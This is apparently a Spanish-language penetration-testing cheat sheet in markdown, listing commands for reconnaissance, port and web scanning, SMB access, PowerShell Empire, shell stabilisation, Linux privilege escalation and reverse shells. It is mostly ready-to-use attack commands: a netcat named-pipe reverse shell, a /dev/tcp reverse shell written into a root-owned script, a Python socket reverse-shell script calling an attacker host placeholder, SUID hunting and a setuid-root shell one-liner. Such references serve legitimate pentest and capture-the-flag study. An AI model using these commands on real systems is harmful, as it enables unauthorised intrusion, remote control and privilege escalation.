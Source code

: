 ### INFO-GATHER
whois [DOMINIO] > para la shell
www.who.is º > para consultar en la web.
host [DOMINO] > para ver direcciones IP
dnsrecon -d [WEB] > ver registros DNS

### SCAN TARGET
**Escaneo de puertos abiertos**
	nmap -p- --open -sS -n -Pn --min-rate 5000 [RHOST]
**Escaneo de servicios y scripts por defecto**
	nmap -p[PUERTOS] -sVC [RHOST]
### DESCRUBRIMIENTO DE HOSTS
**Ver otros equipos dentro de la misma red**
	sudo nmap -sn [IP & MASK] 
	sudo arp-scan -l
	sudo netdiscover -r [IP & MASK]

### SCAN WEB
**Escaneo de directorios**
	gobuster dir -u [DOMINIO]-w /usr/share/dirb/wordlists/[WORDLIST] --no-error -t 200
**Escaneo de subdominios**
	gobuster dns -d [DOMINIO] -w /usr/share/dnsrecon/[WORDLIST] -t 200 --no-error
	wfuzz -w /usr/share/dnsrecon/[WORDLIST] -u [DOMINIO] -H 'Host: FUZZ.[DOMINIO]' -t 50 --hc 302 

### SMB
smbexec.py 'username:password'@IP > se conecta al objetivo
smbclient -L [HOST] -N > listar shares sin pasar contraseña
smbclient -N //[HOST]/[SHARE] > nos conectamos al share sin pasar contraseña

### EMPIRE POWERSHELL
powershell-empire server > inicia el servidor de empire
powershell-empire client > inicia el cliente

### ESTABILIZAR SHELL
**Método 1**
	**Victima**
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh  -i 2>&1|nc [LHOST] \[LPORT] >/tmp/f
	**Atacante**
		nc -nvlp [LPORT]
**Método 2 (Python)**
	python3 -c 'import pty;pty.spawn("/bin/bash")'
	_Ctrl+Z_
	stty raw -echo; fg
	export TERM=xterm

### PRIVESC
**POSIBLE PRIVESC CON PYTHON**
	python3 -c 'import os; os.setuid(0);os.system("/bin/sh")'
**VERIFICAR BINARIOS Y SUDO**
	sudo -l
	find / -perm -u=s -type f 2>/dev/null
	find / -type -f -perm -04000 -ls 2>/dev/null
**SOBREESCRIBIR SCRIPT DE ROOT PARA GENERAR REVSHELL DE ROOT.** 
	echo '#!/bin/bash' > script
	echo 'sh -i >& /dev/tcp/**LHOST**/**LPORT** 0>&1' >> script
**VARIABLES DE ENTORNO**
	printenv
### AGREGAR PATH LINUX
PATH=/RUTA:$PATH

### REVERSE SHELL
**Script Python**
	import socket
	import os
	import subprocess
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("[LHOST]",[LPORT]))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	import pty
	pty.spawn("bash")